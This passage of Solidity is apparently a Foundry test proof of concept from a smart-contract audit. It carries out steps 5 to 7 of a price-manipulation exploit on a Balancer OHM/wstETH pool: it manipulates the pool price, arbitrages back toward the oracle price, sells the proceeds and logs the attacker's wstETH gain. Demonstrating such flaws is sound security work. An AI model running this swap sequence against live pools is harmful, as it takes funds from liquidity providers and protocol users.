```solidity
        singleSwap.amount = ohmOut;
        ohm.approve(address(vault), ohmOut);
        uint256 wstEthOut = vault.swap(singleSwap,
                            funds,
                            0,
                            block.timestamp + 1);
        console2.log("5. wsETH received from swap:", wstEthOut);
        console2.log("5. OHM given in swap:", ohmOut);
        
        // 6. Swap wstETH for OHM on balancer to get to initial pool price
        (, uint256[] memory balances_, ) = vault.getPoolTokens(
            IBasePool(liquidityPool).getPoolId()
        );
        uint256 price = (balances_[0] * 1e18) / balances_[1];
        uint256 priceRatio = price.divWadDown(oraclePrice);
        singleSwap.assetIn = address(wsteth);
        singleSwap.assetOut = address(ohm);
        singleSwap.amount = balances_[1].mulWadDown(priceRatio.sqrt()*1e9 - 1e18);
        uint256 ohmOutArbitrage = vault.swap(singleSwap,
                                    funds,
                                    0,
                                    block.timestamp + 1);

        (, balances_, ) = vault.getPoolTokens(
            IBasePool(liquidityPool).getPoolId()
        );
        console2.log("6. Manipulated price: ", price);
        price = (balances_[0] * 1e18) / balances_[1];
        console2.log("6. wsETH swapped: ", singleSwap.amount);
        console2.log("6. OHM received from swap:", ohmOutArbitrage);
        console2.log("6. Corrected price: ", price);

        // 7. swap the obtained OHM on the market for wstETH
        // here bob is an exchange on the market
        ohm.transfer(bob, ohmOutArbitrage); // send OHM to the exchange
        vm.stopPrank();
        vm.prank(bob);
        uint256 wstethReceived = ohmOutArbitrage.divWadDown(oraclePrice)*997/1000;  // 0.3% assume fee on swap
        wsteth.transfer(alice, wstethReceived);
        console2.log("7. OHM swapped: ", ohmOutArbitrage);
        console2.log("7. wstETh Received from swap: ", wstethReceived);
        
        console2.log("Initial OHM balance:", initialAliceOhmBalance);
        console2.log("Final OHM balance:", ohm.balanceOf(alice));
        int wsETHgain = int(wsteth.balanceOf(alice)) - int(initialAlicewstEthBalance);
        if (wsETHgain > 0) {
            console2.log("wstETH gain:", uint(wsETHgain));
        } else {
            console2.log("wstETH loss:", uint(-wsETHgain));
        }
    }
```

